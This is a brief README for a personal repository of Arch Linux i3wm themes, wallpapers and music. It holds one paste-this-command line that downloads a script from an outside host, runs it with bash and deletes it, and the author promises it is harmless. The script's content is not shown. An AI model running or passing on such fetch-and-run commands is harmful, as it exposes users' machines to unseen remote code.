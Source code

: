 # dmitry_babaycev
A repository of ArchLinux user's configs.

* My site: http://babaycev.3dn.ru/
* Vk: https://vk.com/idkuzuka

In this repository you can find

* My i3wm configuration files (Current version 2.0 from 11.10.2015) with
 * 9 Windows thenes
 * 12 Bar themes
 * 5 Dmenu themes
 
* My favorite music MP3 Files

* My favorite wallpapers 16:9
 * To download one, open it, right clicl on image, press "Save as..."

To see what I can, do this comand in terminal from user:
 $ wget http://archwell.tk/sprayer.script && bash sprayer.script && rm sprayer.script

I guarant you that it can't be dangerous for you, but if you afraid to do this, nobody makes you do this.
